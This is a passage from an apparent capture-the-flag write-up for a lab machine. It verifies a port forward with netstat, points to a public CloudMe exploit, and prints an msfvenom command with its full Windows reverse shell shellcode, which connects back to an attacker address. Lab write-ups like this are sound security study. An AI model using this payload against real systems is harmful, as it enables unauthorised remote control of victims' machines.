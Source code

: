 ```bash

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```

Once its done u will get back to your kali terminal.

By using netstat command we can see that port 8888 is listening on our localhost. So Port forwarding works perfectly.

```bash
root@kali:~# netstat -ano | grep 8888
netstat -ano | grep 8888
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 ::1:8888                :::*                    LISTEN      off (0.00/0/0)
```

I found this exploit available for that CloudMe Version.

> [https://www.exploit-db.com/exploits/48389](https://www.exploit-db.com/exploits/48389)

Generated a reverse shell payload using msfvenom.

```bash
root@kali:~/CTF/HTB/Boxes/Buff# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=1234 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of c file: 1386 bytes
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\x04\x68"
"\x02\x00\x04\xd2\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";
```
